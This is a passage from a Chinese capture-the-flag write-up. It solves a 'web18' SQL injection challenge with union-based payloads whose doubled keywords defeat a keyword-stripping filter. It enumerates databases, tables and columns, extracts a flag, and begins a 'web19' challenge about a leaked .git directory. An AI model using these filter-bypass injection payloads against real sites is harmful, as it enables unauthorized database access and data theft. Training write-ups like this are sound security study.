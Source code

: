 爆数据库：

```sql
?id=-1' uniunionon selselectect 1,group_concat(schema_name),3 from infoorrmation_schema.schemata--+
```

得到:information_schema,web18.

爆表：

```sql
?id=-1' uniunionon selselectect 1,group_concat(table_name),3 from infoorrmation_schema.tables where table_schema='web18'--+
```

得到: ctf,flag.

爆列：

```sql
?id=-1' uniunionon selselectect 1,group_concat(column_name),3 from infoorrmation_schema.columns where table_name='flag'--+
```

得到：id,flag.

爆字段：

```sql
?id=-1' uniunionon selselectect 1,flag,3 from flag--+
```

获取flag{22b7a7c3d73d88050722b3eeb102ee45} . 

   

## web19 Poc And Exp&#39;s Love Note

![](/assets/images/move/1552903244586-895c66f6-aa11-4ac5-96a8-f36f409d5a00.png)

`dirsearch`探测下发现存在`/.git/`泄露:
